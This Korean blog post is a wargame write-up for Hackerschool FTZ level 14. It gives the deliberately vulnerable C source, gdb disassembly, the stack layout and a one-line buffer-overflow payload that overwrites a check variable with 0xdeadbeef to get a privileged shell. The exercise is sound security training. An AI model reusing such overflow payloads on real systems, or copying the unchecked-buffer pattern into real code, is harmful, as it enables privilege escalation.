 ```yaml
---
date: '2022-10-04'
before : '2022-10-03'
after : '2022-10-05'
title: '시스템 해킹(10) : 해커스쿨 FTZ 레벨 14'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

또다시 BOF 문제이다. 이번에는 입력 크기에 제한을 받았지만, 배열의 길이가 20인것에 반해 입력은 45까지(...) 받는다.


그리고 저번 문제와 다르게, check값만 일치한다면 shell을 실행해준다.


### 1. Level 14

바로 cat hint로 소스코드를 확인해보자.
```
#include <stdio.h>
#include <unistd.h>

main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}
```

말했던 것처럼, 오버플로우가 충분히 일어날 수 있는 구조이다. 한 번 코드를 복사/컴파일 해서 gdb로 disassemble 해보자.

```
0x080483b8 <main+0>:    push   ebp
0x080483b9 <main+1>:    mov    ebp,esp
0x080483bb <main+3>:    sub    esp,0x38
0x080483be <main+6>:    and    esp,0xfffffff0
0x080483c1 <main+9>:    mov    eax,0x0
0x080483c6 <main+14>:   sub    esp,eax
0x080483c8 <main+16>:   sub    esp,0x4
0x080483cb <main+19>:   push   ds:0x80495d0
0x080483d1 <main+25>:   push   0x2d
0x080483d3 <main+27>:   lea    eax,[ebp-56] // char buf[20]
0x080483d6 <main+30>:   push   eax
0x080483d7 <main+31>:   call   0x80482d8 <fgets>
0x080483dc <main+36>:   add    esp,0x10
0x080483df <main+39>:   cmp    DWORD PTR [ebp-16] // if, 12-16 = int check
0x080483e6 <main+46>:   jne    0x804840d <main+85>
0x080483e8 <main+48>:   sub    esp,0x8
0x080483eb <main+51>:   push   0xc17
0x080483f0 <main+56>:   push   0xc17
0x080483f5 <main+61>:   call   0x80482f8 <setreuid>
0x080483fa <main+66>:   add    esp,0x10
0x080483fd <main+69>:   sub    esp,0xc
0x08048400 <main+72>:   push   0x80484bc
```

생각보다 어렵지 않은 구조다. 재구성해보면 :

```
char[20] // 56-36
dummy[20] // 36-16
int check // 16-12
```
따라서 40바이트의 \x90과 4바이트의 int의 값을 맞춰주면 된다. 1 바이트나 여유가 남는다(!)

```
@BufferOverflow :
(python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme
```

비밀번호 : guess what


문제가 조금씩 어려워지고 있다. 얼른 Level20까지 끝냈으면...

---
## Source

- 해커스쿨 FTZ
- Me!
